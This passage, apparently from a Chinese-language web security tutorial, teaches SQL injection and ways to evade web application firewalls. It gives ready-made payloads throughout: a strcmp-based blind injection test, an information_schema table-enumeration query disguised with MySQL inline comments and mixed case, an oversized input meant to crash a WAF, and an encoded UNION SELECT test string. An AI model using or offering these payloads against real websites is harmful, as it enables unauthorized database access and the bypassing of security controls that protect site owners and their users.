strcmp(str1,str2):若str1>str2则返回1，若str1=str2则返回0，若str1<str2则返回-1，因此语句select * from sheet1 where 用户名=”admin” and ascii(substr(database(),0,1))=116可以等效替换成：

```
select * from sheet1 where 用户名="admin" and strcmp(ascii(substr(database(),1,1)),116)
```

只有ascii(substr(database(),1,1))和116相等这个语句才不会执行，以此判断是否相等

# 4.绕waf

# 内联注释

我们都知道mysql里可以用/**/作为注释符代替空格，事实上除了这种注释符还有一种注释符叫内联注释，比如/*!字符串*/，**而经过内联注释的语句还是可以执行的**！比如这个语句：

```
select group_concat(table_name) from information_schema.tables where table_schema = database()
```

他的作用是查表，不用赘述，我们可以把它修改成：

```
sEleCt /*!group_concat(table_name)*/ FrOM /*!information_schema.tables*/ WHERE TaBlE_ScHeMa=/*%!"/*/database/*%!"/*/() 
```

![img](assets/1-25-1024x208.png)

这里我们对group_concat(table_name)和information_schema.tables都打上了内联注释/*!*/，并且把database()改成了database/*%!”/*/()，对于一些比较低能的waf可以用这种payload成功绕过

# 缓冲区溢出

大部分防火墙都是基于C/C++开发的，我们可以使用缓冲区溢出使用WAF崩溃

```
http://www.*.com/index.php?page_id=-15+and+(select1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4….
```

我们可以使用测试payload：

```
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4….
```
